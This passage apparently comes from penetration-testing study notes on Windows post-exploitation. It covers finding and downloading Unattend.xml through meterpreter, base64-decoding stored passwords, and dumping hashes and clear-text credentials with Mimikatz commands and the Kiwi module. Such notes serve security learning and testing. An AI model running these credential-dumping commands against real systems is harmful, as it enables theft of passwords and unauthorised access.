 > etc.

**meterpreter session:**

Search util:

- search -f Unattend.xml

... or manually cd into the path.

- download unattend.xml

**Decode base64 on linux:**

- base64 -d password.txt

Then use tool psexec, etc.

## Dumping hashes with Mimikatz

- Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy (@gentilkiwi). It allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory.
- The SAM (Security Account Manager) database, is a database file on Windows systems that stores hashed user passwords.
- Mimikatz can be used to extract hashes from the lsass.exe process memory where hashes are cached.
- We can utilize the pre-compiled mimikatz executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi.

Note: You will need elevated privileges in order to run this (it is a priviledged process)

### Mimikatz Commands:

Always create of cd to Temp directory.
Upload the mimikatz (/usr/share/windows-resources/mimikatz/x64/mimikatz.exe)

Open up shell session, then execute the mimikatz.exe.

Check privs:

> privilege::debug

Dump the cash of lsa/lsass process:

> lsadump::sam

Dump lsa secrets:

> lsadump::secrets

Display logon passwords (check for clear text passwords):

> sekurlsa::logonpasswords

### Kiwi module:

Meterpreter extension.

> load kiwi

> creds_all
